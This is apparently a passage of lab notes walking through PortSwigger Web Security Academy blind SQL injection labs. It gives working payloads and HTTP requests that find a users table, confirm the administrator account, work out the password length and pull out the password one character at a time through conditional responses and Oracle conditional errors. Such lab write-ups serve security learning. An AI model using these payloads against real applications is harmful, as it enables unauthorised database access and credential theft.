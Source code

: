 - will not return the `Welcome back message`.

```
GET /filter?category=Pets HTTP/1.1
Host: 0a2700230491d608c095ed200029003c.web-security-academy.net
Cookie: TrackingId=M1fXINMDA2LR2zH6'+AND+1=1--; session=r7hAOvwxNLrTPkJe1cBfOHPKEF5GFoUq
```

- return the `Welcome back message`

- check whether the table named `users` exists  
  `AND (select 'x' from users LIMIT 1)='x'--`

- check whether the username `administrator` exists  
   `AND (select username from users WHERE username='administrator')='administrator'--`

- enumerate length of password of administrator  
   `AND (select username from users WHERE username='administrator' AND LENGTH(password)>1)='administrator'--`

  - test with 2,3,4,5,... and find the length of the password

- find the administrator's password  
   `AND (select SUBSTRING(password,1,1) from users where username='administrator)='a'--`

  - use `cluster bomb` from intruder for two position

  1.  first number inside SUBSTRING function until the length of the password
  2.  character `='a'` with a-z1-9... etc

---

## Lab - 12: Blind SQL injection with conditional errors

- check the endpoints and not vulnerable to SQL injection except TrackingId
- test with `conditional responses` and no differences
- construct a subquery

  - `'||(SELECT '')||'--` => will get an error and try with
  - `'||(SELECT '' FROM dual)||'--` => return 200 and it is oracle database then check with other invalid table name
  - `'||(SELECT '' FROM invalid_name)||'--` => return 500 error

- check whether table name `users` exists

  - `'||(SELECT '' FROM users WHERE ROWNUM = 1)||'` => will not return an error and users table exists

- then check with conditional errors

  ```
  Cookie: TrackingId=bnSuW7tsA8qV5OrA'||(SELECT+CASE+WHEN+(1=2)+THEN+TO_CHAR(1/0)+ELSE+NULL+END+FROM+dual)||'--;
  ```

  will return no error but

  ```
  Cookie: TrackingId=bnSuW7tsA8qV5OrA'||(SELECT+CASE+WHEN+(1=1)+THEN+TO_CHAR(1/0)+ELSE+NULL+END+FROM+dual)||'--;
  ```
